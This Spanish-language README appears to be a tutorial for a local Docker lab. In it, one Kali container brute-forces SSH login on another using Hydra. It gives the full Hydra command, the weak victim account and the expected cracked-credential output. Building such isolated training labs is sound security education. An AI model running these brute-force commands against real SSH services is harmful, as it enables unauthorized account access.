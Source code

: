 # Laboratorio de Fuerza Bruta con Hydra sobre SSH usando Docker Compose

Este proyecto implementa un entorno de laboratorio local utilizando Docker y Docker Compose para realizar un ataque de fuerza bruta con **Hydra** sobre un servicio SSH. Se emplean dos contenedores basados en Kali Linux: uno como atacante y otro como víctima.

---

## 📦 Estructura del proyecto

```
lab-hydra/
├── docker-compose.yml
├── pass.txt
├── .gitignore
└── README.md
```

---

## ⚙️ Requisitos previos

* Docker
* Docker Compose
* Git (opcional para subir el proyecto)

---

## 🧱 Paso 1: Crear el entorno

### 1.1 Clonar o crear la carpeta del laboratorio

```bash
mkdir lab-hydra && cd lab-hydra
```

### 1.2 Crear el archivo `docker-compose.yml`

```yaml
version: '3.8'

services:
  kali_attacker:
    image: kalilinux/kali-rolling
    container_name: kali_attacker
    stdin_open: true
    tty: true
    networks:
      - red_kali
    command: sleep infinity

  kali_victim:
    image: kalilinux/kali-rolling
    container_name: kali_victim
    stdin_open: true
    tty: true
    networks:
      - red_kali
    command: sleep infinity

networks:
  red_kali:
    driver: bridge
```

### 1.3 Levantar los contenedores

```bash
docker compose up -d
```

---

## 🧪 Paso 2: Configurar la máquina víctima

### 2.1 Ingresar al contenedor

```bash
docker exec -it kali_victim bash
```

### 2.2 Instalar y configurar SSH

```bash
apt update && apt install openssh-server -y
service ssh start
```

### 2.3 Crear un usuario vulnerable

```bash
useradd -m usuarioPrueba
passwd usuarioPrueba  # Usar "soyunavistima"
```

### 2.4 Confirmar IP

```bash
apt install iproute2 -y
ip a  # Anotar IP, por ejemplo: 172.20.0.3
```

---

## 💣 Paso 3: Configurar la máquina atacante

### 3.1 Ingresar al contenedor

```bash
docker exec -it kali_attacker bash
```

### 3.2 Instalar Hydra y cliente SSH

```bash
apt update
apt install hydra openssh-client dos2unix -y
```

### 3.3 Crear diccionario de contraseñas

```bash
echo "soyunavistima" > pass.txt
dos2unix pass.txt
```

---

## 🎯 Paso 4: Ejecutar el ataque

### 4.1 Lanzar Hydra

```bash
hydra -V -l usuarioPrueba -P pass.txt ssh://172.20.0.3
```

### 4.2 Resultado esperado

```text
[22][ssh] host: 172.20.0.3   login: usuarioPrueba   password: soyunavistima
```

---

## 🧾 Observaciones

* Asegúrate de que `pass.txt` tenga formato Unix.
* Si el login manual funciona pero Hydra falla, verifica los permisos y formato del archivo.
* `hydra -V` permite ver los intentos en tiempo real.

---

## 📤 Subir a GitHub

```bash
git init
git add .
git commit -m "Laboratorio fuerza bruta con Hydra sobre SSH"
git branch -M main
git remote add origin https://github.com/tuusuario/lab-hydra.git
git push -u origin main
```

---

## 📄 .gitignore sugerido

Crea un archivo llamado `.gitignore` y agrega lo siguiente:

```
# Archivos temporales y logs
*.log
*.out

# Archivos sensibles o temporales
pass.txt

# Archivos de sistema
.DS_Store
Thumbs.db

# Docker
*.pid
*.sock

# WSL/VSCode
.vscode/
```

---

## ✅ Créditos

Daniel Freezed, 2025
Hydra por van Hauser/THC

---

¿Preguntas o mejoras? ¡Abre un issue o pull request!
